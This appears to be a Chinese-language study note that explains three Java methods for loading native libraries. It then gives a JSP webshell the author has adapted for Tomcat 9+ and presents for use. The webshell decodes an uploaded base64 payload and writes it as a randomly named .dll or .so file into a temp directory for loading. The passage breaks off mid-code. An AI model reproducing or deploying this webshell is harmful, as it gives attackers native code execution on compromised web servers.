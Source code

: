 此处所讲的知识点和代码都是从[倾旋师傅的文章](https://paper.seebug.org/1953/)中获取的，讲解得十分全面，尤其是其中的代码，很值得去学习和积累



### JAVA加载动态链接库的三种方式		

**1.Runtime.getRuntime().load()**

`Runtime.getRuntime().load()`是一个在运行时期加载库文件的方法。它是`Runtime`类的一个实例方法，可以加载系统路径或者其他指定路径下的动态链接库。使用这种方式时，需要提供库文件的绝对路径

```jsp
private void RuntimeLoad(String path){
    Runtime.getRuntime().load(path);
}
```



**2.System.load**

`System.load()`是另一种加载动态链接库的方法。与`Runtime.getRuntime().load()`相似，它也需要库文件的绝对路径。这个方法是`System`类的静态方法

```jsp
private void SystemLoad(String path){
    System.load(path);
}
```



**3.Native Load**

这种方式尝试找到并调用一个名为`NativeLibLoader`的类中的`loadLibrary`方法，这是更复杂和灵活的加载方式，允许更细致地控制加载过程

```jsp
private void NativeLoad(String path) throws Exception{
    Class Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
    if(Native != null){
        java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
        Load.invoke(path);
    }
}
```



### Webshell代码

由于[倾旋师傅](https://paper.seebug.org/1953/#0x06-java)给出的webshell代码无法在Tomcat9.0及以上版本运行，这是因为`sun.misc.BASE64Decoder`在Java8及以前的版本里是可用的，但是之后的版本就要使用`java.util.Base64`替代`sun.misc.BASE64Decoder`，以下是我稍微调整过后的代码

```cpp
<%@ page import="java.io.RandomAccessFile" %>
<%@ page import="java.io.*" %>
<%@ page import="java.util.*" %>
<%!
    private String getFileName(){
        String fileName = "";
        Random random = new Random(System.currentTimeMillis());
        String os = System.getProperty("os.name").toLowerCase();
        if (os.contains("windows")){
            fileName = "C:\\Windows\\Temp\\" + random.nextInt(10000000) + ".dll";
        }else {
            fileName = "/tmp/"+ random.nextInt(10000000) + ".so";
        }
        return fileName;
    }

    public String UploadBase64DLL(InputStream stream) throws Exception {
        Base64.Decoder decoder = Base64.getDecoder();
        File file = new File(getFileName());
        FileOutputStream fos = new FileOutputStream(file);
```